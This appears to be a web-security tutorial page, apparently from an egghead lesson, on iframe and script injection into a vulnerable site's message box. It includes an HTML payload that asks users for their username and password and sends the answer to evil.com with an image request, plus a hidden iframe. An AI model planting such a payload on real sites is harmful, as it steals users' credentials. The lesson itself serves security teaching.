 [Video link](https://egghead.io/lessons/egghead-prompt-users-for-credentials-from-a-vulnerable-website-via-iframe-injection)

# Prompt Users for Credentials from a Vulnerable Website via iFrame Injection

Another time to put on our attackers hat!

On our malicious server, we can create hijack.html. T

```html
<script>
  const payload = prompt("Please enter your username and password");
  const img = new Image();
  img.src = `https://evil.com:666/hijack?payload=${payload}`;
</script>
<iframe hidden src="https://evil.com:666/steal.html"></iframe>
```

If we log in and paste this into our message box the user will be prompted again to enter in their username and password.

This prompt box declares where it is from, so we'd need to be cunning about what we called our site to allow this attack to be less suspicious.

